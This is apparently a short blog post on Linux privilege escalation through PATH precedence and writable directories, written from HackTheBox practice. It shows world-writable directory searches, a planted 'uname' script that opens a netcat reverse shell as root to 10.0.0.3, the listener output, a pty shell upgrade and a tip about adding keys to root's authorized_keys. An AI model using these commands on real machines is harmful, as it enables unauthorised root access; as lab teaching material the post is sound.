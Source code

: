 ```yaml
---
layout: post
title:  "$PATH and Linux privilege escalation"
description: "A note concerning privilege escalation in Linux by abusing path priorities."
tag: [linux, privesc]
---
```


# Path priority is important

A short note on why write permission could be a recipe for disaster.

When Linux is looking for a path to execute binary called like:

```console
marek@marek-mint:~$ python
Python 2.7.15+ (default, Nov 27 2018, 23:36:35) 
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```
It will check paths in order defined in PATH environmental variable, like this:

```console
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

So from left to right:

```console
marek@marek-mint:~$ file /usr/local/bin/python
/usr/local/bin/python: cannot open `/usr/local/bin/python' (No such file or directory)
marek@marek-mint:~$ file /usr/sbin/python
/usr/sbin/python: cannot open `/usr/sbin/python' (No such file or directory)
marek@marek-mint:~$ file /usr/bin/python
/usr/bin/python: symbolic link to python2.7
```
Found a symlink, executes, the actual binary is:

```console
marek@marek-mint:~$ readlink -f /usr/bin/python
/usr/bin/python2.7
```

Apparently there.

# Privilege escalation

This method may be used to escalate privileges if our user has write permission to a directory another user or even root executed binaries from. So if let's say root executes a perl script and we can't tamper with the script maybe we can tamper with the interpreter binary itself. If it's possible to replace the binary with eg. a bash script with commands to execute, they will execute as root and escalate privileges this way.

There may be a situation we don't even have to overwrite the binary, because if we put a malicious script named "perl" in a location that takes precedence in the PATH eg. */usr/local/sbin/perl* then it will be executed instead. Always look for writable locations during privilege escalation attempts.

Finding writable locations:
```console
find / -writable -type d 2>/dev/null      # world-writeable folders
find / -perm -222 -type d 2>/dev/null     # world-writeable folders
find / -perm -o w -type d 2>/dev/null     # world-writeable folders
```
Source: [g0tm1k](http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation)

So there was a script running as root with cron calling "uname". I created an executable script:

```console
user@remotemachine:~$ cat uname
#!/bin/sh

nc -e '/bin/sh' 10.0.0.3 9001
```
which would create a reverse shell as root to my local machine 10.0.0.3 listening on port 9001. 

```console
root@kali:~# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.0.0.3] from (UNKNOWN) [10.0.0.4] 38682
whoami
root
```

Most of the time it's a good idea to upgrade shell like this:
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
Of course nc might have not been installed on the remote box but any available command may be called as root this way. You may for example push your public key to authorized_keys of another user or root and login with SSH.

I've learned this during my [HackTheBox](https://hackthebox.eu) hacking attempts, a platform which I recommend as it has a great number of machines and challenges and a supportive community.
